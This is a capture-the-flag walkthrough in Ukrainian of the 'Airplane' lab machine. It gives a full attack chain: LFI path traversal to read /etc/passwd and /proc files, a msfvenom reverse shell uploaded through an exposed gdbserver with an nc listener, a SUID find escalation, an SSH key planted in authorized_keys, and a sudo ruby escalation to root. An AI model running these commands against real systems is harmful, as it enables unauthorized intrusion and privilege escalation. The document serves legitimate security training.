










# Airplane - Are you ready to fly?

Складність: Medium

Ціль: 10.114.164.127

## 1. Розвідка (Reconnaissance & Enumeration)

### 1.1. Сканування портів (Nmap):

```bash
└─$ sudo nmap -sC -sV -p- -vv -oN nmap_result.txt 10.114.164.127
```



   Найцікавіший порт — `8000`. `Did not follow redirect to http://airplane.thm:8000/?page=index.html`. Це означає, що потрібно додати домен `airplane.thm` до `/etc/hosts`.

### 1.2. Веб-розвідка:
   Одразу впадає в очі `?page=index.html`. Дуже часто це ознака Local File Inclusion (LFI).
   Перевіряю:
```bash
└─$ curl http://airplane.thm:8000/?page=../../../../etc/passwd
```



   Також ми вже знаємо двох реальних користувачів:
   * `carlos`
   * `hudson`
     
   Тепер потрібно перетворити LFI на отримання доступу.
```bash
└─$ curl http://airplane.thm:8000/?page=../app.py
from flask import Flask, send_file, redirect, render_template, request
import os.path

app = Flask(__name__)


@app.route('/')
def index():
    if 'page' in request.args:
        page = 'static/' + request.args.get('page')

        if os.path.isfile(page):
            resp = send_file(page)
            resp.direct_passthrough = False

            if os.path.getsize(page) == 0:
                resp.headers["Content-Length"]=str(len(resp.get_data()))

            return resp
        
        else:
            return "Page not found"

    else:
        return redirect('http://airplane.thm:8000/?page=index.html', code=302)    


@app.route('/airplane')
def airplane():
    return render_template('airplane.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

```


```bash
└─$ curl "http://airplane.thm:8000/?page=./../../../../proc/self/environ" -o environ
...
└─$ cat environ                                                                     
LANG=en_US.UTF-8LC_ADDRESS=tr_TR.UTF-8LC_IDENTIFICATION=tr_TR.UTF-8LC_MEASUREMENT=tr_TR.UTF-8LC_MONETARY=tr_TR.UTF-8LC_NAME=tr_TR.UTF-8LC_NUMERIC=tr_TR.UTF-8LC_PAPER=tr_TR.UTF-8LC_TELEPHONE=tr_TR.UTF-8LC_TIME=tr_TR.UTF-8PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/binHOME=/home/hudsonLOGNAME=hudsonUSER=hudsonSHELL=/bin/bashINVOCATION_ID=c3c53c2ed9924801948fece46386b7c9JOURNAL_STREAM=9:19088
└─$ curl "http://airplane.thm:8000/?page=..//../../../proc/self/cmdline" -o cmdline
...
└─$ cat cmdline                                                                    
/usr/bin/python3app.py 
```

  З environ ми отримали:
    `HOME=/home/hudson`
    `USER=hudson`
  Тобто Flask запущений від імені hudson, а не www-data. Це нетипово і дуже важливо для подальшої експлуатації.

  Наступний крок - з'ясувати, що за процес слухає 6048.
```bash
#!/bin/bash
for i in $(seq 1 1000); do
    out=$(curl -s "http://airplane.thm:8000/?page=../../../../proc/$i/cmdline")
    if [[ "$out" != "Page not found" && -n "$out" ]]; then
        echo "$i: $out"
    fi
done
```

```bash
└─$ ./ids.sh
...
529: /usr/bin/gdbserver0.0.0.0:6048airplane
...
```



  `gdbserver` — це сервер для віддаленого налагодження. Якщо він запущений без автентифікації та доступний по мережі, це часто призводить до можливості виконання коду на машині.

```bash
└─$ gdb
...
(gdb) target extended-remote airplane.thm:6048
...
(gdb) help remote
```


Використаю https://hacktricks.wiki/en/network-services-pentesting/pentesting-remote-gdbserver.html#upload-and-execute

```bash
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.130.250 LPORT=4444 PrependFork=true -f elf -o binary.elf
└─$ chmod +x binary.elf
└─$ gdb binary.elf 
# Set remote debuger target
(gdb) target extended-remote airplane.thm:6048
# Upload elf file
(gdb) remote put binary.elf /home/hudson/binary.elf
# Set remote executable file
(gdb) set remote exec-file /home/hudson/binary.elf
# Execute reverse shell executable
run
# You should get your reverse-shell
```

```bash
└─$ nc -lvnp 4444
```



```bash
hudson@airplane:/home/hudson$ find / -perm -4000 -type f 2>/dev/null
```



Використано https://gtfobins.org/gtfobins/find/

```bash
hudson@airplane:/home/hudson$ /usr/bin/find . -exec /bin/sh -p \; -quit
```







```bash
bash-5.0$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/DALXthm6wxIpapL/LyJK49UItNPVF+7+2a1bf24oYCg1YFNPEM314+J/oXQVpEgxK35mpTXde/UjpJMLHHU/7FvBcM00zAOCuG55nQX9nGOUT577BDxLAM2uPBrVP+pgZ4m4dxgSqy8QSqso3FZ2vrEYVieqp9HzNqNc2THx10WUzEEnIRVFBOxVMna9+58sPgQRaom25CSY6eu0mMkY9SG7XydLxi+sb6HlCx/j75Oml4qztxghQfSRWhghj8NDnJ8F7/Q3IUjKLPj7TC09H0FhxxFx6lfzbdbu+lOiEbRaOJkGQF8cjEyHsW1KrF5OuA/CoosGz0imrQj5+h04nIWTeczTGnUAdPrB+TadVAPL7wE5/JjuekP+BWkhoDFhiagZZ17h3rBiy78OU7bp3z6XSse5VcShkMHOPlC5t15HMnF38UhvMxN8o6eROqiwIqop+j22Sm4r8TNY/rKCpFKnxd8F4nPQSnzCXC91H51hIQIpfjjSa3aPUso62Yk= lester_1@Android' > /home/carlos/.ssh/authorized_keys
```

```bash
└─$ ssh -i carlos carlos@10.114.164.127
```



```bash
carlos@airplane:~$ echo 'system("/bin/bash")' > root.rb
carlos@airplane:~$ sudo /usr/bin/ruby /root/../home/carlos/root.rb
```



